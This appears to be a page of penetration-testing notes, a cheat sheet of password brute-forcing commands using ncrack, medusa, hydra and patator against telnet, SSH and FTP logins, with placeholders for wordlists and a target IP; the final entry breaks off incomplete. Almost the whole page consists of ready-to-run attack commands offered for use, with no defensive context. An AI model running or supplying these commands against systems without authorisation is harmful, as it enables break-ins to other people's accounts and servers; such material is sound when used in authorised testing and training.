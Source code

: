 ```yaml
---
description: you can use the SecLists wordlists
---
```


# b - Authentication Bruteforcing

### \[ncrack]

`ncrack -vv -U <username_wl> -P <passw_wl> $ip -p telnet` - bruteforce telnet (there may be false positives).

`ncrack -vv -U <username_wl> -P <passw_wl> $ip -p ssh`  - ssh bruteforce.

### \[medusa]

`medusa -h $ip -M ssh -U <username.lst> -P <pass.lst>` - ssh bruteforce.

### \[hydra]

`hydra -L <un.list> -P <pw.list> ssh://$ip` - ssh bruteforce.

`hydra -L <un.list> -P <pw.list> ssh://$ip -T 55` - increasing threads to 55.

### \[patator]

`nano /usr/bin/patator` - view the help menu.

`patator -h` - to also view help menu.

`patator ssh_login -h` - pick an option for more helpl options.

`patator ftp_login host=$ip user=FILE0 password=FILE1 0=<username.wlist> 1=<passw.wlist> -x ignore:mesg="Login incorrect."` - full command for bruteforce.

`patator ssh_login host=$ip user="admin" password="admin1234"` -&#x20;







